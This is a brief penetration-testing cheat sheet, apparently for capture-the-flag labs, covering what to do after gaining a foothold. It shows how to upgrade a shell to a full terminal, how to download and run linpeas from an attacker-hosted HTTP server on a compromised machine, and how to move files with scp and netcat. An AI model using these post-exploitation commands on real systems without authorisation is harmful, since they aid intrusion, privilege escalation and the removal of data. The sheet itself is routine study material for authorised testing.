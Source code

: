 ```yaml
---
title: "Foothold cheat sheet"
date: 2024-03-17
---
```

## Get pretty shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
(Ctrl+Z)
stty raw -echo; fg
```
If Python is not installed:
```
script /dev/null -c bash
```
## Get linpeas
On the server side (attacker machine):
```
python3 -m http.server 8080
```
On the attacked machine:
```
wget http://10.10.14.59:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
## File transfer
### scp
Using `scp` which requires an SSH server on the remote side:
```
scp  [<user>@[<ip>:]]<source_file> [<user>@[<ip>:]]<target_file>
```
### nc
If there is a firewall, `nc` can be used. On the target side, we listen for a new connection and redirect the output to a file:
```
nc -lnvp <port> > <target_file>
```
On the source side, we use `nc` to send the file:
```
cat <source_file> | nc <target_ip> <port>
```
With this method, you should manually kill the connection. Be sure to check the MD5 sum of the source and the target after that in order to be sure the transfer has been fine.